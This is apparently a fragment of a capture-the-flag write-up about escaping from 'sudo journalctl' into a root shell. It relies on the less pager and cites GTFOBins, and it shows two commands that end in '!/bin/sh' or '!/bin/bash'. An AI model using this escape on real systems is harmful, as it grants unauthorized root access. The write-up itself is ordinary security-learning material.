

____
https://gtfobins.github.io/gtfobins/journalctl/#sudo

```bash
sudo journalctl
!/bin/sh
```

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service

!/bin/bash
```





The trick here is that `journalctrl` will output to stdout if it can fit onto the current page, but into `less` if it can’t. Since I’m running it with `-n 5`, that means only five lines come out, so I need to shrink my terminal to smaller than 5 lines, and I’ll get sent into `less`, still as root.
